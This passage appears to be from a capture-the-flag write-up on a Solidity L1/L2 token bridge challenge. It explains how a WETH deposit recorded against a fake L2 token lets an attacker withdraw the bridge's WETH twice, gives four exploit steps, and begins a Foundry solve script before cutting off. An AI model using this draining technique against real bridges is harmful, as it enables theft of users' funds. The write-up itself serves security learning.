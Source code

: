 ```solidity

    sendCrossDomainMessage(l2TokenBridge, message);
    deposits[_l1Token][_l2Token] = deposits[_l1Token][_l2Token] + _amount;

    emit ERC20DepositInitiated(_l1Token, _l2Token, _from, _to, _amount);
}

```

In the **`_initateERC20Deposit`** function, regardless of what the L2 token is, if the L1 token is weth, then the event message sent to L2 will make the deposit to L2:WETH. However, a different L2 token can be recorded in the deposits mapping storage.

Therefore, deploy a fakeL2 token on L2 and give the user enough of that token. Then, calling the above function with the fakeL2 token as an argument, the record in deposits will be **`L1_WETH-fakeL2`**, but the deposit on L2 will be made to **`L2_WETH`**.
Thus, **`L2_WETH`** can be withdrawn as much as recorded in deposits **`L1_WETH-L2_WETH`**.

Using this method, we can withdraw the **`2 ether`** in **`L1ERC20Bridge`**, and again withdraw the amount recorded as **`L1_WETH-fakeL2`** from L2's fakeL2 (the user can specify any amount of fakeL2 tokens, so this is not a problem) and withdraw all the **`L1_WETH`** in **`L1ERC20Bridge`**.

## **Exploit**

1. [L2] Create a fake L2 token.
2. [L1] Send L1_weth → L2_fake (actually, send L1_weth → L2_weth).
3. [L2] Withdraw L2_weth → L1_weth 2 ether.
4. [L2] Withdraw L2_fake → L1_weth 2 ether.

```solidity
pragma solidity ^0.8.20;

import {Script,console2} from "forge-std/Script.sol";

import "src/L1/WETH.sol";
import "src/L1/L1CrossDomainMessenger.sol";
import "src/L1/L1ERC20Bridge.sol";
import "src/Challenge.sol";
import "src/L2/standards/L2StandardERC20.sol";
import "src/L2/L2ERC20Bridge.sol";
import {Lib_PredeployAddresses} from "src/libraries/constants/Lib_PredeployAddresses.sol";
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import "src/L2/standards/IL2StandardERC20.sol";

import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract Solve is Script {
    L2Fake fake;
    Challenge challenge;
    L1ERC20Bridge l1Bridge;
    WETH weth;
    function setUp() public {}

    function get_info() public {
        console2.log("msg.sender", msg.sender);
        vm.startBroadcast();
        challenge = Challenge(vm.envAddress("CHALLENGE"));
        l1Bridge = L1ERC20Bridge(challenge.BRIDGE());
        weth = WETH(payable(address(challenge.WETH())));
        console2.log("challenge", address(challenge));
        console2.log("l1Bridge", address(l1Bridge));
        console2.log("weth", address(weth));
    }
    function create_fake() public {
        vm.startBroadcast();
```